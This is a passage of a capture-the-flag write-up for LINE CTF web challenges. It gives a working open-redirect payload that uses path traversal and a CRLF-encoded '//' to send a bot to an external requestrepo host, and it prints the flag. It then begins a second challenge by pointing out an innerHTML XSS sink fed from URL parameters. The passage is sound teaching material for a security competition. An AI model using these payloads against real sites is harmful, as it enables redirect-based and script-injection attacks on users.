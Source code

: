 ```js
                    target="_blank"
                >
                    You are going to jump...
                </Link>
            </main>
        </>
    );
}
```

So this is server-side React, and our error will be passed to `${props.errorCode}`. We will abuse the href functionality of React, because if we use `../../` we can get to `/`, then if we use whitespace we can force an invalid path that will get stripped, but that still starts with `/`, and then we can use `//` to force the href to redirect to our server, because the browser will interpret a link that starts with `//` as an absolute path on the same protocol. So the final payload will look like:

```
GET /rdr?errorCode=../../%0d%0a/06sjnkhn.requestrepo.com HTTP/1.1
```

We just have to get the race condition right, and we can get the flag.

**LINECTF{7320a1b512380dd4e0452f9fc3166201}**

<a name="one-time-read"></a>
## one-time-read (305 pts, 8 solves) - Web

Description:
```
Please make sure that your exploit can work on local environment perfectly before submitting it to the real server to avoid spamming!

One Time Read is an internal tool to store some secret messages as a note. Note is protected with passcode and will be immediately deleted after you read it. How secure!

Internal addresses:

Internal note: http://msg.line.ctf

Report page: http://bot.line.ctf

Bot Public URL:

server1: http://34.84.238.214/

server2: http://34.85.53.84/
```

We are given a web server written in node.js and a bot that we can send to line.ctf domains. The goal is to get the flag from an internal note. Thing is, we don't have access to `msg.line.ctf` so we cannot create notes ourselves.

First thing that we need to do is to get the note ID of the flag. That is pretty easy, since there's an XSS in the bot frontend:
```js
function fillAlert(name, msg) {
    if (msg) {
        document.getElementById(name).innerHTML = msg;
        document.getElementById(name).style = "display:block";
    }
}
window.onload = () => {
    const urlParams = new URLSearchParams(window.location.search);
    fillAlert('error', urlParams.get('error'));
    fillAlert('success', urlParams.get('success'));
```